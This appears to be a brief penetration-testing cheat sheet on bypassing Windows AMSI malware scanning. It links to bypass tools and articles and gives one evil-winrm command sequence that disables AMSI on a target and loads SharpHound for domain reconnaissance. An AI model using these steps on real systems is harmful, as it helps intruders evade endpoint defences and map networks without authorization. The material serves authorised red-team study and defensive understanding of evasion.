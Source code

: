 #exploitation
## Testing for Amsi Bypass:

- https://github.com/rasta-mouse/AmsiScanBufferBypass

## Amsi-Bypass-PowerShell

- https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell

## using evil-winrm

When you have a winrm shell with evil-winrm you can use the bypass amsi module to bypass amsi detection's on your target: 

```
evil-winrm -i 172.16.1.1 -u afsimmons -p "" -e /opt/privesc
Bypass-4MSI
menu
Invoke-Binary /opt/privesc/SharpHound.exe
```

## Resources:

- https://blog.f-secure.com/hunting-for-amsi-bypasses/
- https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/
- https://github.com/cobbr/PSAmsi/wiki/Conducting-AMSI-Scans
- https://slaeryan.github.io/posts/falcon-zero-alpha.html
- https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/
